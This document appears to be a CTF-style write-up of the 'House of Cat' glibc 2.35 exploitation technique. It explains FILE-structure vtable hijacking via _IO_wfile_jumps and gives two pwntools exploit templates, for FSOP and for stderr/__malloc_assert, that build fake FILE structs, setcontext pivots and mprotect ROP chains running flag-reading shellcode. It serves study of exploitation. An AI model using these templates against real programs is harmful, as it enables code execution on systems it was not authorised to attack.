

[toc]

## Background

**House analysis**: [link](https://bbs.kanxue.com/thread-273895.htm) by author *CatF1y*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

On one hand, if we hijack the vtable pointer of file struct to `_IO_wfile_jumps`, I/O operation will call `_IO_wfile_xsputn` (+0x38) for functions like `puts` or `printf`.

> When we use `printf` to output a string with `\n`, the function will be replaced by `puts` and the next-line character is removed.

Then function calls can be illustrated as:

```
printf/puts ->_IO_XSPUTN->_IO_OVERFLOW
```

On the other hand, when a program exits, `_IO_flush_all_lockp` will iterate `_IO_list_all` and call `_IO_OVERFLOW` (+0x18) instead:

```
exit
	fcloseall
		_IO_cleanup
			_IO_flush_all_lockp
				_IO_OVERFLOW
```

Overall, if we hijack the vtable pointer to `_IO_wfile_jumps+0x10` when `puts/printf` is called, or to `_IO_wfile_jumps+0x30` in FSOP, I/O operation will now call **` _IO_wfile_seekoff`** (+0x48) instead.

For the House of Cat, we aim to write the `_IO_wfile_jumps` with an offset over the vtable pointer. To make I/O operation eventually executes  **` _IO_wfile_seekoff`** because of the offset made. We usually have two ways to trigger the operation introduced above, but to use the 1st way to trigger `_malloc_assert`, requiring us to own the primitive of arbitrary write to any address (to hijack `stderr`). Thus, in most scenarios we will go for FSOP.


## FSOP | _IO_list_all

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Execution Flow**:

After meeting the required conditions, `_IO_WOVERFLOW` is called:

```
<_IO_wfile_seekoff+41>: mov rax, [rdi+0xa0];		
<_IO_wfile_seekoff+70>: mov rdx, [rax_0x8];
<_IO_wfile_seekoff+74>: cmp [rax+0x10], bx;
<_IO_switch_to_wget_mode+4> : mov rax, [rdi+0xa0];	# rax1=_wide_data
<_IO_switch_to_wget_mode+15>: mov rdx, [rax+0x20];
<_IO_switch_to_wget_mode+19>: cmp rdx, [rax+0x18];
<_IO_switch_to_wget_mode+25>: mov rax, [rax+0xe0];	# rax2=[rax1+0xe0] (wide vtable) 
<_IO_switch_to_wget_mode+37>: call [rax+0x18];		# call [rax2+0x18] (_overflow)
```

**Fake IO Deployment**:

- `vtable`:  `_IO_wfile_jumps+0x10`.
- `_lock`: A writable address, i.e. heap, writable libc address.
- `_wide_data`: An address `rax1` in our control, namely `*(fp+0xa0)=rax1`.
- `_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end`: namely  `*(A+0x0) != *(A+0x8)`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`. 
- If we make `_wide_data=fp+0x30`, actually we can let `fp->_IO_save_base < f->_IO_backup_base`, for less memory space required.
- `_wide_data->_wide_vtable`: Heap address `rax2` in our control, namely `*(A+0xe0)=rax2`.
- `_wide_data->_wide_vtable->overflow`: Starting function/gadget `C`  to hijack `RIP`, namely `*(rax2+0x18)=C`.

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```

- The value of `rcx` is related to `mode`, `_IO_helper_jumps`, and the fake `vtable` — the difference between two libc addresses validated by `_IO_validate_vtable`.
- If we want to execute `system` or one-gadget instead of `setcontext`, set `rdx` and make it larger than previous adjacent value to meet the requirements. 
- The set up for `mode` (+0xc0) is not definitely necessary .
- If we make `_flag&0x2!=0`, execution flow will get inside `buffered_vfprintf`, which makes `mode!=0`.

**Illustration**:




## Stderr | ___malloc_assert

Unlike FSOP, we will need at least 2 primitives of **Largebin Attack** (or some other similar attack methods) to write arbitrary pointers:

1. Overwrite pointer `stderr` pointing to `_IO_2_1_stderr_`, to an address we are in control.
2. Overwrite **top chunk** size (less than 0x20), to trigger `trigger __malloc_assert`.

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Triggers**:

We can try to modify the **top chunk** to trigger — any one of the following will work:

1. The size of top chunk is less than 0x20 (`MINSIZE`).
2. The `prev_inuse` bit of top chunk is 0.
3. The `old_top` is not page alignment.

**Others remain same as FSOP.**

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
stderr			= libc_base + libc.sym['stderr']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = stderr
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```


